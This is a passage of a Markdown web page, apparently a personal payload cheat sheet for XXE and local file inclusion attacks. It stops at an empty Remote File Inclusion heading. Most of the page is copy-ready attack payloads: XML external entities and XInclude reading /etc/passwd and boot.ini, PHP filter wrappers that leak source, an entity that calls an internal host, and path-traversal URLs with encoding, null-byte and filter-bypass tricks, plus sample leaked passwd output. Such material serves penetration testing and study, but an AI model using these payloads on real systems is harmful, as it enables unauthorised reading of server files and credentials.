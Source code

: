 ```yaml
---
layout: default
title : muzec - All About Payloads Cheat Sheet For XXE,LFI,RFI,SSTI,SSRF
---
```


### XML External Entity

An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.


### Detect The Vulnerability
 
 Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName.` Entities are defined inside the `DOCTYPE` element.
 
 ```
 <!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
 ```
 
It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.
 
### Exploiting XXE to retrieve files
  
To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways: 

1. Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.

2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

 For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server: 
 
 ```
 <?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the productId value. This causes the application's response to include the contents of the file: 
 
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### XXE Cheat Sheet


```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

Warning `SYSTEM` and `PUBLIC` are almost synonym.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```



### Classic XXE Base64 encoded

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude attacks

When you can't modify the `DOCTYPE` element use the `XInclude` to target

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


###  Local File inclusion (LFI)

```
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

The Path Traversal vulnerability allows an attacker to access a file, usually exploiting a "reading" mechanism implemented in the target application
```

### Basic LFI

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```
http://example.com/index.php?page=../../../etc/passwd
```

### Null byte

In versions of PHP below 5.3.4 we can terminate with null byte.

```
http://example.com/index.php?page=../../../etc/passwd%00
```

### Double encoding

```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 encoding

```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Path and dot truncation

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

### Filter bypass tricks

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

### Remote File Inclusion (RFI)

